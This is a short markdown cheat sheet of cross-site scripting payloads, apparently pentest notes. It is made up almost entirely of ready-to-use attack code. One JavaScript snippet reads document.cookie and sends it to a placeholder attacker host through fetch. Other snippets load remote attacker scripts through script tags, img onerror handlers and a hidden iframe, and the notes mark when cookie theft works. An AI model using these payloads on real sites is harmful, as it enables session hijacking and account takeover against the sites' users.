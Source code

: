 # Remote Payloads
- **REQUIRE NON-HTTPOnly Cookie**

## Self-Hosted JavaScript
```xss.js
<script src="http://[ATTACK_IP]/xss.js"></script>
```

## Steal Session Cookies
- Works with 'Non-HTTPOnly' tag

##### Alert
```php
<script>alert(document.cookie)</script>
```

##### Remote
```xss.js
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://[ATTACK_IP]/exfil?data=" + encodedCookie)
```

##### Self Cookie Test

##### Victim Test


## Bypass innerHTML

##### img
```
<img src=x onerror=this.src='[ATTACK_IP]/?c='+document.cookie>
```
```
<img scr='x' onerror='let script=document.createElement("script"); script.src="http://[IP]/xss.js"; document.body.appendChild(script);' />
```
```
<img src=1 onerror="s=document.createElement('script');s.src='http://[IP]';document.body.appendChild(s);"
```

##### iframe
```
<iframe src=http://[ATTACK_IP]/xss.js height="0" width="0"></iframe>
```

